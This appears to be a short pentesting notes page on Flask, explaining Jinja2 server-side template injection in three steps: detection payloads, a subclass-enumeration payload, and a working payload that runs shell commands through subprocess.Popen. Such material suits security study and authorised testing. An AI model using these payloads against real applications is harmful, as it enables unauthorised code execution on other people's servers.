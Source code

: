 ```yaml
---
description: A Python library for routing and hosting a website
---
```


# Flask

## # Related Pages

{% content-ref url="../python.md" %}
[python.md](../python.md)
{% endcontent-ref %}

## Jinja2 Server-side Template Injection (SSTI)

Inject the Jinja2 templating language for when the `render_template_string()` function is used

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti" %}
HackTricks explaining exploitation in detail
{% endembed %}

### 1. Detect

```django
{{7*7}}
{{config}}
{% raw %}
{% debug %}
{% endraw %}
```

### 2. Find subclasses to use for RCE

```django
''.__class__.mro()[1].__subclasses__()
```

Then take the response and replace `,` with `\n` in Visual Studio Code to easily see the line number of the index. The `'subprocess.Popen'` key is an easy way to execute commands, but more can also be exploitable.&#x20;

### 3. Use subclass for RCE

Find a vulnerable subclass and replace index `42` with the index of it in the `__subclasses__()`:

{% code overflow="wrap" %}
```django
{{''.__class__.mro()[1].__subclasses__()[42]('id',shell=True,stdout=-1).communicate()[0].strip()}}
```
{% endcode %}
